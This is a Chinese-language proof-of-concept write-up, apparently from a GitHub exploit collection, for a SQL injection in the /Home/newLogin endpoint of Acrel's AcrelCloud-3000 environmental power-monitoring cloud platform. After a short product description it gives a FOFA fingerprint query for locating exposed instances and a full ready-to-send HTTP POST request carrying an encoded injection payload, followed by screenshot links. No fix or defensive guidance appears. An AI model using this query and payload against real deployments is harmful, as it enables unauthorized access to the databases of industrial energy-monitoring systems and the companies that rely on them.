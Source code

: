 # 安科瑞环保用电监管云平台newLogin存在SQL注入漏洞

AcrelCloud-3000环保用电监管云平台依托创新的物联网电力传感技术，实时采集企业总用电、生产设备及环保治理设备用电数据，通过关联分析、超限分析、停电分析、停限产分析，结合及时发现环保治理设备未开启、异常关闭及减速、空转、降频等异常情况，同时通过数据分析还可以实时监控限产和停产整治企业运行状态，用户可以利用PC、手机、平板电脑等多种终端实现对平台的访问。

## fofa

```javascript
body="myCss/phone.css"
```

## poc

```javascript
POST /Home/newLogin HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Content-Length: 193

data=AmILgROn2omEYq%2Bd8Urox8DW%2F8rRQwsBzOEz00K3cyMY1DhHq6oDzKni9uNo6p7VIuEZBk0edl%2Blr8MukZeYaoj5ogyFWf1wJQ6iDSwIHOKSdk2%2BRRo%2FbhB70T5AlQ3PB6Ca1I6PvvVefK%2BuEF6b%2BqnvUH5y0gix7tq3yw1WJdc%3D
```

![image-20241129104833102](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411291048146.png)

![image-20241129104733314](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411291047374.png)